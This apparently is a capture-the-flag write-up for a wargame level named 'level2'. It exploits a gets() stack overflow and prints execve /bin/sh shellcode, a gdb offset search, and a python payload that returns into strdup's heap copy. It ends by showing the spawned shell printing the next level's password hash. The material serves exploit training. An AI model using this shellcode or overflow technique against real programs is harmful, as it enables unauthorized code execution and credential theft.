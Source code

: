 # level2

We found an exec again. SCP into local to run ghidra.
there is a fn main that calls fn p().

There is a no call to /bin/sh, so we will have to insert some shellcode

    shellcode:
    http://shell-storm.org/shellcode/files/shellcode-575.html

    "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

We found a call to gets() again, but this time it is protected by a restriction on our return address, it can't point to any address in the stack since bytes in the stack are in range 0xbf000000 - 0xbffffff, so we cannot overflow there. 

After a lot of searching we realise we can inject gets() into the strdup function along with shellcode to access /bin/sh. 

    (gdb) run
    Starting program: /home/user/level2/level2 
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()

0x37634136 -> 7cA6 so we found an offset of 80

21 - bytes shell code
59 - bytes padding
4 - bytes return address (to gets())

    $ (python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2
    j
    X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    cat /home/user/level3/.pass
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02